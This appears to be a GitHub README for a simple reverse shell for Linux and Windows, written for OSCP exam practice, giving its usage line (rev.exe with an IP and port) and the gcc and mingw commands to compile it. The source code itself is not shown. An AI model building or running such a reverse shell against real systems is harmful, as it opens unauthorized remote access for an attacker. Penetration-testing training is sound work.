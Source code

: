 # Simple Reverse Shell

Simple reverse shell for linux and windows for OSCP preparation


Usage

```
rev.exe <ip> <port>
```

Compilation for linux
```
gcc -static -o rev simpleRevShell.c
gcc -static -m32 -o rev32 simpleRevShell.c
```

Compilation for windows
```
x86_64-w64-mingw32-g++ -lws2_32 -static -o rev simpleRevShellWin.c -lws2_32
i686-w64-mingw32-g++ -lws2_32 -static -o rev32 simpleRevShellWin.c -lws2_32
```
